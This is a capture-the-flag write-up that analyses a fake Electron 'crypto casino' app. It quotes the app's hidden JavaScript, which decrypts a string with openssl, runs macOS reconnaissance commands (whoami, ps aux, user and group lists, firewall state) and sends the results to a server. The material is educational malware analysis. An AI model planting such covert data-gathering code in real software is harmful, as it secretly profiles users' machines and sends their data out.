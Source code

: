 # Perfectly Legit Crypto Casino
**Description:** I'm just finding out about this blockchain thing and it's awesome! I can gamble all I want with no consequences! Checkout my new favorite app!

## Solution

1. Looking at the contents of download, i first opened info.plist to get an idea of what I was working with and this appeared to be an Electron app.

    ```
    ...
    <key>CFBundleDisplayName</key>
    <string>dev</string>
    <key>CFBundleExecutable</key>
    <string>dev</string>
    <key>CFBundleIconFile</key>
    <string>electron.icns</string>
    <key>CFBundleIdentifier</key>
    <string>com.electron.dev</string>
    <key>CFBundleInfoDictionaryVersion</key>
    <string>6.0</string>
    <key>CFBundleName</key>
    <string>dev</string>
    ...
    ```

2. With that I moved on to the Resources folder and opened app.asar in vscode to see if I saw anything interesting at a glance.

3. Scrolling down a little I see this little snippet.

    ```javascript
    async function runMacOS() {
      doCommand(
        "echo U2FsdGVkX18dLoy5VJmru0jW8cEVgMQS5JYhHSk8D369laaZ7d7nBJXslDqS4CFoqIfwoKGM6Urhmx079RXgIA== | openssl enc -aes-256-cbc -d -a -pass pass:infected"
      );
      const commands = [
        ["username", "whoami"],
        ["hostname", "hostname"],
        ["ip", "hostname"],
        ["osys", "sw_vers -productVersion"],
        ["cpu", "sysctl -n machdep.cpu.brand_string"],
        ["ram", "sysctl -n hw.memsize"],
        ["gpu", "system_profiler SPDisplaysDataType | grep Chipset"],
        ["disk", "diskutil info / | grep Total"],
        ["network", "networksetup -listallhardwareports"],
        ["uptime", "uptime"],
        ["processes", "ps aux"],
        ["services", "launchctl list"],
        [
          "firewall",
          "defaults read /Library/Preferences/com.apple.alf globalstate",
        ],
        ["users", "dscl . list /Users"],
        ["groups", "dscl . list /Groups"],
      ];
      const info = await gatherSystemInfo(commands);
      sendToServer(info);
    }
    ```

    appears to collect information about the machine and there is also that strange command at the top

    ```
    echo U2FsdGVkX18dLoy5VJmru0jW8cEVgMQS5JYhHSk8D369laaZ7d7nBJXslDqS4CFoqIfwoKGM6Urhmx079RXgIA== | openssl enc -aes-256-cbc -d -a -pass pass:infected
    ```

4. After taking a closer look at above all we had to do was run the command above as all it simply decrypts the string being echoed and we get the flag.

    ```
    -d decrypt
    -a base64 decode
    -pass password
    ```

![win](https://media.giphy.com/media/3o6MbqNPaatT8nnEmk/giphy.gif?cid=790b7611u6sf2wb0ontrx9n38efg2upm3n2wuqy85xk5r49v&ep=v1_gifs_search&rid=giphy.gif&ct=g)